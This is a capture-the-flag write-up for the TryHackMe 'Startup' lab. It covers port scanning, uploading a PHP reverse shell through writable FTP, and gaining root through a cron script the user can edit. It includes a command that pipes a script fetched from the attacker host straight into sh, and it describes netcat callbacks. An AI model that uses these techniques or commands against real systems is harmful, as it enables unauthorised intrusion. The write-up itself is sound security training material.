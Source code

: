# THM Startup Writeup

​		August 10<sup>th</sup> 2023

​		writeups@securitymidwest.net

​		[Box Link](https://tryhackme.com/jr/startup)

 
## Skills Needed or Learned
1. Web Service Enumeration.
1. Cracking an encrypted zip file.
1. Linux Privesc with Permission Misconfiguration


### Description:


### Difficulty: Easy

# Hosts File

`sudo nano /etc/hosts`

add a line with the remote IP and the dns entry


`<IP> startup.thm`

# Enumeration

We started with a basic Nmap scan of the first 1000 ports

`nmap -v startup.thm`

![image](https://github.com/eatinsundip/Writeups/assets/43767555/ec8bf7e5-0fd9-428f-9a18-fd9610a21746)

From here I did a deeper scan of the returned open ports.

I opt to do a deeper scan after I discover what is open to save a lot of time trying to deep scan ports that aren't even open.

`sudo nmap -p 21,22,80 -A -sC -sV startup.thm`

![image](https://github.com/eatinsundip/Writeups/assets/43767555/2c6291b6-7df3-4bff-98ff-ebc551c9aef0)

With this data we turn focus on FTP first.

There wasn't a ton to find but it was interesting and worth looking at.

We also enumerated a possible username for later.

![image](https://github.com/eatinsundip/Writeups/assets/43767555/b4507c4d-e3bb-460f-80a6-4853a9384aff)

No need right now to look into SSH on port 22 but it may be useful later.

I turn focus to http on Port 80.

The website is pretty basic and not built with anything interesting.

![image](https://github.com/eatinsundip/Writeups/assets/43767555/3fe2b5c0-7757-4bba-8c5b-abffb4819dd1)

Nikto also came back useless.

I start a gobuster to see if there were any interesting directories to investigate.

`gobuster dir -r -x php,txt,html -z -b 404,403 -t 80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u startup.thm`

![image](https://github.com/eatinsundip/Writeups/assets/43767555/7a9a516f-357f-4fe5-9d77-b77190cbb09f)

http://startup.thm/files is the same directoy as the ftp server. This could be a possible RCE if we can upload files.

![image](https://github.com/eatinsundip/Writeups/assets/43767555/af626315-d3fd-406c-9157-ef0bfa3ba007)

# Foothold

I tested an innocent php file to see if I could get it on and executed from the browser.

`<?php phpinfo();?>`

![image](https://github.com/eatinsundip/Writeups/assets/43767555/5977991c-be9c-49b1-a4d0-71e763d16018)

I couldn't drop it in root but I had permission in the ftp folder to write so I dropped it there!

![image](https://github.com/eatinsundip/Writeups/assets/43767555/a548ab2e-daee-41b2-92d9-1cddf3cdb6ae)

Just like that, php execution is working on the victim website.

![image](https://github.com/eatinsundip/Writeups/assets/43767555/44116ced-9075-4fde-8ee3-5166288d0efd)

Now I move to a malicious PHP file to get a full shell to the box.

I used `https://revshells.com` to easily build the reverse shell code.

![image](https://github.com/eatinsundip/Writeups/assets/43767555/49e4df16-c6bf-4d4c-9114-6782f1f10051)

Once the file was created I used ftp to upload the file to the ftp directory just like the innocent test file.

I then setup the listener on the attack box for the RCE.

![image](https://github.com/eatinsundip/Writeups/assets/43767555/d4c4d0e2-744d-4468-9460-d77b9c85078e)

Everything is ready for execution so I hit the PHP page and caugth a connection from the victim machine.

![image](https://github.com/eatinsundip/Writeups/assets/43767555/71756bee-05ec-4c82-991c-01fa05252ccc)

I dropped in as www-data so now it is time to do some privesc.

![image](https://github.com/eatinsundip/Writeups/assets/43767555/847b73a6-30b9-42f9-923f-30532b779ab5)

# Privilege Escalation

I poked around but pretty quyickly ran a linpeas instance to try to catch some low hanging fruit.

I dropped linpeas to my attackbox and hosted a temporary http server with python.

`sudo python -m http.server 80`

from the victim machine I then ran `curl -L <attackbox-IP>/linpeas.sh | sh` to run it from memory.

![image](https://github.com/eatinsundip/Writeups/assets/43767555/a4941dc6-d1ab-4c79-94ca-e6e8e5a0d513)

The most interesting thing I jumped to first were the interesting files and folders in the root directory.

One of these files contains the first flag for the room!

![image](https://github.com/eatinsundip/Writeups/assets/43767555/1980ba57-d91b-40df-981c-ac8bd1d474c9)

I dug through all these and I found:
1. Vagrant seems to be another user on the system buit the home directory is not accurate to the passwd file.
1. Recipe.txt contains the first flag for the room.
1. /incidents contained a pcap file I downloaded and inspected

![image](https://github.com/eatinsundip/Writeups/assets/43767555/d62df984-132e-4e74-81d6-18bd6dd990cc)

I moved this file into the FTP folder to grab it onto the attack box.

![image](https://github.com/eatinsundip/Writeups/assets/43767555/154db886-1d6a-407b-8e62-aa5a82691f2c)
![image](https://github.com/eatinsundip/Writeups/assets/43767555/758a22c0-5b95-434e-8b60-d9741873b97c)

Once the pcap file is opened in wireshark just rightclick over the packets and follow the tcp stream to recplicate my findings.

![image](https://github.com/eatinsundip/Writeups/assets/43767555/c49101ed-e8aa-4da9-b6e2-933122495646)

check through all the streams to see if there is anything interesting. (there is!)

![image](https://github.com/eatinsundip/Writeups/assets/43767555/9f76d834-0eb0-4bf5-9edd-cfef8b750d11)

I found a password in the tcp stream!

![image](https://github.com/eatinsundip/Writeups/assets/43767555/8ed9d6ac-ebee-4167-be2f-415d6a988f75)

My first thought is test this against known users on SSH.

Users that I know of right now.
1. Lennie
2. Vagrant
3. Maya

I tried all three over SSH and got in with Lennie's account and the password recovered from teh pcap file!

![image](https://github.com/eatinsundip/Writeups/assets/43767555/02183c28-e69c-4ba4-8b88-823b27ffb33a)

I then pulled the user.txt flag!

![image](https://github.com/eatinsundip/Writeups/assets/43767555/3dce37cf-4933-432a-9eee-ca138a6cb70f)

There were also more interesting files in Lennies directory.

![image](https://github.com/eatinsundip/Writeups/assets/43767555/2b6f3a4a-5918-4886-95fd-b98b138f588e)

Lennie talks about deleting the incident logs, it's too late for that Lennie!

I ran another instance of linpeas but this time from the perspective of Lennie's user account.

One of the very interesting things found was the bash script in /etc owned by Lennie.

![image](https://github.com/eatinsundip/Writeups/assets/43767555/832c9c96-5ae0-44c4-861f-a284e74e56ed)

I had a solid hunch that this may be getting called by root o a schedule.

Instead of running PSExec I decided to test myself.

I added a simple netcat call and started listning for it.

![image](https://github.com/eatinsundip/Writeups/assets/43767555/710c7b75-1f02-46e5-be44-09aa4a8a8aab)

I tested manually and then let it sit and wait for a scheduled call.

![image](https://github.com/eatinsundip/Writeups/assets/43767555/74d6f2fd-67bc-4857-9db9-4377e9680ef6)

It did make a schedule call but I needed to fix the rce code.

I paid another visit to https://revshells.com.

Here is the final script to try to get RCE from this schedule call.

![image](https://github.com/eatinsundip/Writeups/assets/43767555/8e53ebed-6b2b-4cf6-a7ee-fd3fad46fa44)

# ROOT!

I popped root and grabbed the final flag!

![image](https://github.com/eatinsundip/Writeups/assets/43767555/705e1876-e300-400e-bc2f-ff203b5b8d7e)
